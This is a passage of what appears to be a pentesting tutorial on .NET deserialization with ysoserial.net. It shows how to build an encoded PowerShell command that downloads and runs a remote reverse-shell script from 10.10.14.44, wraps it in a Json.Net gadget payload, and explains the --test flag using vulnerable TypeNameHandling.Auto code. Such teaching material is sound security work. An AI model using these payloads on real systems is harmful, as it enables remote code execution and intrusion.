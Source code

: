 ```bash
#Reverse shell
#Create shell command in linux
echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.44/shell.ps1')" | iconv  -t UTF-16LE | base64 -w0
#Create exploit using the created B64 shellcode
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "powershell -EncodedCommand SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADQANAAvAHMAaABlAGwAbAAuAHAAcwAxACcAKQA=" -o base64
```

**ysoserial.net** has also a **very interesting parameter** that helps to understand better how every exploit works: `--test`\
If you indicates this parameter **ysoserial.net** will **try** the **exploit locally,** so you can test if your payload will work correctly.\
This parameter is helpful because if you review the code you will find chucks of code like the following one (from [ObjectDataProviderGenerator.cs](https://github.com/pwntester/ysoserial.net/blob/c53bd83a45fb17eae60ecc82f7147b5c04b07e42/ysoserial/Generators/ObjectDataProviderGenerator.cs#L208)):

```java
            if (inputArgs.Test)
                {
                    try
                    {
                        SerializersHelper.JsonNet_deserialize(payload);
                    }
                    catch (Exception err)
                    {
                        Debugging.ShowErrors(inputArgs, err);
                    }
                }
```

This means that in order to test the exploit the code will call [serializersHelper.JsonNet_deserialize](https://github.com/pwntester/ysoserial.net/blob/c53bd83a45fb17eae60ecc82f7147b5c04b07e42/ysoserial/Helpers/SerializersHelper.cs#L539)

```java
public static object JsonNet_deserialize(string str)
    {
        Object obj = JsonConvert.DeserializeObject<Object>(str, new JsonSerializerSettings
        {
            TypeNameHandling = TypeNameHandling.Auto
        });
        return obj;
    }
```

In the **previous code is vulnerable to the exploit created**. So if you find something similar in a .Net application it means that probably that application is vulnerable too.\
Therefore the **`--test`** parameter allows us to understand **which chunks of code are vulnerable** to the desrialization exploit that **ysoserial.net** can create.

<br>
